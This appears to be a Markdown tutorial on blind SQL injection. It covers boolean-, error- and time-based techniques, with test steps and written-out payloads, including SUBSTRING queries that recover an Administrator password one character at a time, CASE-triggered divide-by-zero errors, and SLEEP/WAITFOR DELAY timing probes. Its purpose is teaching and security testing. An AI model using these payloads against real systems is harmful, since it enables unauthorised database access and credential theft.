# Blind SQL Injection:

## D. Blind SQL injection, `where the results of a query you can't see in the application's HTTP responses.`
- - Basically, the attacker doesn't see the direct results of their injected queries rather the attacker relies on the behavior of the site.
- Trial and error, the attacker continues to extract data by asking a series of true or false questions, gradually revealing sensitive information such as database structure, table names, or even specific data records.

# Type 1: Boolean-Based Blind SQL Injection
- Test Steps:
1. Enter a legitimate username and password in the login form.
2. In the username field, append a single quote (`'`) and `AND 1=1--` to inject a condition that is always true.
3. Observe the application's response.

- Expected Outcome: The login should be successful, indicating a vulnerability to boolean-based blind SQL injection.

## Exploiting blind SQL injection by triggering conditional responses:
- Inject the SQLi to affect the Application Logic i.e WHERE condition.
- The LIMIT (MySQL and PostgreSQL) or TOP(T-SQL) clause ensures that the query returns only one row.
- Cookies, while useful for maintaining state and enhancing user experience on the web.

- ![image](https://github.com/user-attachments/assets/fac6eae1-c2b4-479f-a395-ff2cd0c8dcdf)

### Example:
```
…xyz' AND '1'='1     The first of these values causes the query to return results, because the injected AND '1'='1 condition is true. As a result, the "Welcome back" message is displayed.
…xyz' AND '1'='2     The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
```

- For example, suppose there is a table called Users with the columns Username and Password, and a user called Administrator. You can determine the password for this user by sending a series of inputs to test the password one character at a time.
```
To do this, start with the following input:

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Next, we send the following input:
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
We can continue this process to systematically determine the full password for the Administrator user.
```

_Example_
```
Injected Payload:
Suppose the application constructs a query like this: SELECT * FROM items WHERE item_name = 'input_value'.
An attacker could input anything' OR (SELECT 'a' FROM users LIMIT 1)='a' --.
This could result in the following SQL query: SELECT * FROM items WHERE item_name = 'anything' OR (SELECT 'a' FROM users LIMIT 1)='a' --'.

Result:
If the users table has rows, (SELECT 'a' FROM users LIMIT 1)='a' evaluates to TRUE.
Therefore, the entire WHERE clause evaluates to TRUE, potentially bypassing the intended query logic and returning all rows from the items table.
```

# Type 2: Error-Based Blind SQL Injection
- Refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts
- may be able to induce the application to return a specific error response based on the result of a boolean expression.
- may be able to trigger error messages that output the data returned by the query.

- Test Steps:
1. Enter a legitimate username and password in the login form.
2. In the username field, append a single quote (`'`) and `AND 1=0 UNION SELECT 1/0--` to generate an SQL error by dividing by zero.
3. Observe the application's response.

- Expected Outcome: The application should display an error message, indicating a vulnerability to error-based blind SQL injection.

## Exploiting blind SQL injection by triggering conditional errors:
- To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

With the first input, the CASE expression evaluates to 'a', which does not cause any error.
With the second input, it evaluates to 1/0, which causes a divide-by-zero error.
```

- If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.
- Injection: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Extracting sensitive data via verbose SQL error messages:
- Misconfiguration of the database sometimes results in verbose error messages.
- Error Message: `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
- To induce the application to generate an error message that contains some of the data that is returned by the query.
- You can use the CAST() function to achieve this. It enables you to convert one data type to another.

# Type 3: Time-Based Blind SQL Injection
- Test Steps:
1. Enter a legitimate username and password in the login form.
2. In the username field, append injection `'AND SLEEP(5)--` to introduce a delay of 5 seconds in the query execution.
3. Observe the application's response.

- Expected Outcome: The login process should exhibit a noticeable delay, indicating a vulnerability to time-based blind SQL injection.

## Exploiting blind SQL injection by triggering time delays:
- SQL queries are normally processed synchronously by the application, `delaying the execution of a SQL query also delays the HTTP response.`
```
For Microsoft SQL Server,:

'; IF (1=2) WAITFOR DELAY '0:0:10'-- # The first of these inputs does not trigger a delay, because the condition 1=2 is false.
'; IF (1=1) WAITFOR DELAY '0:0:10'-- # The second input triggers a delay of 10 seconds, because the condition 1=1 is true.
```
- Injection: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
